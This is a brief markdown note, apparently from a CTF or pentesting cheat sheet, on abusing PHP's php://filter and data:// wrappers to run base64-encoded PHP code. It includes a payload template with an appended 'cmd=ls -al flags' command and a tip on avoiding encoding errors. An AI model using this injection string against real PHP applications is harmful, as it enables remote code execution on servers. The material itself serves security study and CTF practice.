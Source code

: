 PHP wrappers like `php://filter` can enable code execution by transforming files on the fly. Attackers can use the `convert.base64-decode` filter to execute base64-encoded payloads.

**Example:**
1. Use PHP payload 
	`<?php payload; ?>`

2. Encode the value of the payload to base64 and use the filter.
	`php://filter/convert.base64-decode/resource=data://plain/text,BASE64_ENCODED_PAYLOAD&cmd=ls -al flags`

Note: Avoid including `&cmd` in the input to prevent encoding errors.